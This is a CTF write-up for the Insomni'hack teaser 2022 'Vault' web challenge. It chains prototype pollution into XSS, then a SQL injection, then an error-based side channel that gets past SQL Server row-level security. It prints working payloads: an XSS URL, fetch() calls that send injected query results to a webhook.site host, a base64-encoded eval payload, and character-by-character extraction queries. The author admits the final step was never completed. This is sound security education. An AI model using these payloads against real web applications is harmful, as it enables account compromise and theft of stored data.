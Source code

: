 ```yaml
---
title: Insomni'hack teaser 2022 – Vault
date: '2022-01-31'
draft: false
authors: ['thebish0p']
tags: ["Insomni'hack teaser 2022", 'Web', 'Prototype Pollution', 'SQLi', 'Error Based Injection']
summary: 'Prototype pollution which allows to run arbitrary js in admin context and retrieve the flag through the sql injection with an error based injection.'
---
```


## Vault

> by clZ
>
> A competing group has created a so-called secure Vault where people can store their secrets. We have serious doubts on their capacity to actually provide such a service. Could you show everyone that their solution is not as secure as they think?
>
> The Vault is available [here](http://vault.insomnihack.ch:5000/).
>
> They are so confident in their solution that they also released their [source code](https://static.insomnihack.ch/media/Vault_191c4ba6dc394e5713771ac4808a02330fd9583a-9516bb402ba3ca3401458c8d8e08d112cde7a9f7e9a5a9b349dc9ac403e1b48f_RR5HK9s.tgz).

We start by checking the web page and notice that there is a login, register and report link section. So my first thought was trying to find an XSS and report a link in order to grab an admin’s cookie for example but we had an issue we can’t register:

![Registration Error](/static/images/insomnihack-teaser-2022/registration_error.png)

We continue by checking the source code and manage to find a JavaScript Protocol Pollution bug that can lead to an XSS `http://vault.insomnihack.ch:5000/?__proto__[url][]=data:,alert(1)//&__proto__[dataType]=script#page=secrets` as shown below:

![Alert XSS](/static/images/insomnihack-teaser-2022/xss_alert_1.png)

Time to try to get a callback from the admin through the report link function so we just add `fetch("https://webhook.site/388bc797-594f-4945-a407-5137e40ced43")` to our payload, report it and get a callback:

![First Callback](/static/images/insomnihack-teaser-2022/first_callback.png)

We noticed at this point that cookies on the site are `httpOnly` so we need something else:

```python
@app.route('/api/report', methods=['POST'])
def contact():
    url = request.form["url"]
    pattern = re.compile("^https?:\/\/")
    if len(url) > 0 and pattern.match(url):
        try:
            from selenium import webdriver
            from selenium.webdriver.common.keys import Keys
            from selenium.webdriver.chrome.options import Options
            import time
            session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)
            adminsession = dict()
            adminsession["admin"] = 1
            adminsession["username"] = "admin"
            adminsession["password"] = os.environ.get("ADMIN_PWD")
            session_cookie = session_serializer.dumps(dict(adminsession))
            chrome_options = Options()
            chrome_options.headless = True
            chrome_options.add_argument('--no-sandbox')
            driver = webdriver.Chrome("/app/chromedriver", options=chrome_options)
            driver.set_page_load_timeout(30)
            driver.get("http://" + os.environ.get("VHOST") + "/")
            time.sleep(1)
            driver.add_cookie({"name": "session", "value":session_cookie,"httpOnly": True})
            driver.get(url)
            time.sleep(30)
            driver.close()
            return {'status':'OK'}
        except:
            return {'status':'KO','msg':'Error checking page'}
    return {'status':'KO','msg':'Invalid URL'}
```

We recheck the `app.py` file and notice that the `username` parameter in `/api/stats` is prone to SQL injection.

```python
@app.route('/api/stats')
def stats():
    if not "admin" in session or session["admin"] != 1:
        return {'status':'KO', 'msg': 'You are not admin'}
    else:
        try:
            conn_str = ("Driver={ODBC Driver 17 for SQL Server};"
                "Server=db,1433;"
                "Database=Vault;"
                "UID=" + session["username"] + ";"
                "PWD=" + session["password"])
            conn = pyodbc.connect(conn_str)
            cursor = conn.cursor()
            sql = "SELECT inserttime FROM dbo.Stats WHERE username = '" + request.args.get("username") + "'"
            cursor.execute(sql)
            res=cursor.fetchall()
            ret=[]
            for row in res:
                ret.append({'inserttime':row[0]})
            cursor.close()
            conn.close()
            return {'status':'OK','results':ret}
        except:
            return {'status':'NOK'}

```

We continue by adding an injection to our payload `fetch("/api/stats?username=admin' union select 123 --").then(x => x.text()).then(x=>{location='https://webhook.site/32903bb4-075a-4196-933d-2d558ae4a216/?secrets='+btoa(x)})` but we base64 it and then eval the decoded value in order for it to work : `http://vault.insomnihack.ch:5000/?__proto__[url][]=data:,eval(atob(%27ZmV0Y2goIi9hcGkvc3RhdHM/dXNlcm5hbWU9YWRtaW4nIHVuaW9uIHNlbGVjdCAxMjMgLS0iKS50aGVuKHggPT4geC50ZXh0KCkpLnRoZW4oeD0%2be2xvY2F0aW9uPSdodHRwczovL3dlYmhvb2suc2l0ZS8zMjkwM2JiNC0wNzVhLTQxOTYtOTMzZC0yZDU1OGFlNGEyMTYvP3NlY3JldHM9JytidG9hKHgpfSk7%27))//&__proto__[dataType]=script#page=secrets` and get a callback as shown below:

![successful_injection](/static/images/insomnihack-teaser-2022/successful_injection.png)

After several failed attempts of selecting the flag from the database we notice that `instal.sql` has a SecurityPredicate which prevents access from different users to specific rows :

```sql
DROP SECURITY POLICY IF EXISTS dbo.SecurityPolicy;
GO
DROP FUNCTION IF EXISTS dbo.SecurityPredicate;
GO
CREATE FUNCTION dbo.SecurityPredicate
(
  @UserName nvarchar(32)
)
RETURNS TABLE
WITH SCHEMABINDING
AS RETURN
(
  SELECT ok = 1 WHERE USER_NAME() = @UserName
);
GO

CREATE SECURITY POLICY dbo.SecurityPolicy
ADD FILTER PREDICATE dbo.SecurityPredicate(UserName)
ON dbo.Vault WITH (STATE = ON, SCHEMABINDING = ON);
GO
```

After some researching, I find this article named [Beware of Side-Channel Attacks in Row-Level Security in SQL Server 2016](https://www.mssqltips.com/sqlservertip/4379/beware-of-sidechannel-attacks-in-rowlevel-security-in-sql-server-2016/) explaining how to bypass this Predicate by causing an error like a zero division error so we tried to cause an error while trying to bruteforce each character of the flag.

Unfortunately, the CTF ended at this time and didn't manage to finish the challenge on time but the injection required is shown below :

```sql
select 1 from dbo.Vault where username='secret' and secret_name='flag' and 1/(ascii(substring(secret_value,1,1))-GUESS)=1
```

Finally what needs to be done is just looping through the characters of secret_value and sending for each one this payload :

```js
fetch('/api/stats?username=${encodeURIComponent(' union select 1 from dbo.Vault where username='secret' and secret_name='flag' and 1/(ascii(substring(secret_value,${pos},1))-GUESS)=1;-- -')});`
```
